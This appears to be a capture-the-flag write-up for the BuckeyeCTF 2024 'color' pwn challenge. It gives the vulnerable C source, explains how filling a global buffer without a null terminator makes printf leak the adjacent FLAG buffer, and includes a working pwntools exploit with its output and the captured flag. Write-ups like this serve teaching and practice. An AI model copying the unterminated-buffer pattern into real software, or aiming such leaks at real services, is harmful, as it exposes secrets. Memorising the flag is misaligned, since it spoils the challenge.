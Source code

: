 # color [246 solves]
### Challenge Description
> What's your favorite color?

`nc challs.pwnoh.io 13370`
### Challenge Author 
> Author: gsemaj
# Challenge Files 
we are given with the source file that was used for compiling the binary.
```c filename=color.c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char FAVORITE_COLOR[0x20];
char FLAG[0x28];

void parse_answer(char *dst, char *src) {
    int i = 0;
    while (src[i] != '\n') i++;
    memcpy(dst, src, i);
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    memset(FAVORITE_COLOR, 0, 0x20);
    char *envFlag = getenv("FLAG");
    if (envFlag) {
        strcpy(FLAG, envFlag);
    } else {
        strcpy(FLAG, "bctf{fake_flag}");
    }

    char buf[0x60];
    printf("What's your favorite color? ");
    fgets(buf, 0x60, stdin);
    parse_answer(FAVORITE_COLOR, buf);

    printf("%s!?!? Mid af color\n", FAVORITE_COLOR);

    return 0;
}
```
# Solution
## Analysis
first analyse the binary provided to us.
```bash
fooker@fooker:~/buckeyectf2024/pwn/color$ file color
color: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f067b4e3300967a1e4b51df4157d8127f8a52db3, for GNU/Linux 3.2.0, not stripped
fooker@fooker:~/buckeyectf2024/pwn/color$ checksec color
[*] '~/buckeyectf2024/pwn/color/color'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
we are provided with a fully-mitigated `64-bit, dynamically linked` binary. inside the source file, there seem to be two buffers declared globally and therefore, they must reside in the `data section` 
```c
char FAVORITE_COLOR[0x20];
char FLAG[0x28];
```
the `flag` will be loaded into the second buffer and we have a write primitive of size `0x60 bytes` at the location of the first buffer
```c
void parse_answer(char *dst, char *src) {
    int i = 0;
    while (src[i] != '\n') i++;
    memcpy(dst, src, i);
}

int main() {
    ...

    char buf[0x60];
    printf("What's your favorite color? ");
    fgets(buf, 0x60, stdin);

    parse_answer(FAVORITE_COLOR, buf);
    ... 
}
```
## printf() null-byte vulnerability
at the very end, the contents of the first buffer will be printed using `%s` format specifier in `printf`. since `printf` only stops readiin bytes to `stdout` until it reads a nullbyte, therefore we could write exactly `0x20` bytes in the first buffer which would accidentally leak the contents of the second buffer. 

here's the full exploit.
```py
from pwn import *

exe = './color'
elf = context.binary = ELF(exe, checksec=True)

host = 'challs.pwnoh.io'
port = 13370
r = remote(host, port, level='DEBUG')

r.recvuntil(b'color? ')

payload = b'A' * 0x20
r.sendline(payload)

r.interactive()
```
running this exploit leaks the flag as expected
```py
fooker@fooker:~/buckeyectf2024/pwn/color$ python3 exploit.py
[*] '~/buckeyectf2024/pwn/color/color'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.pwnoh.io on port 13370: Done
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbctf{1_d0n7_c4r3_571ll_4_m1d_c010r}!?!? Mid af color
[*] Got EOF while reading in interactive
$
```
and there we have our flag.
## Flag
`bctf{1_d0n7_c4r3_571ll_4_m1d_c010r}`

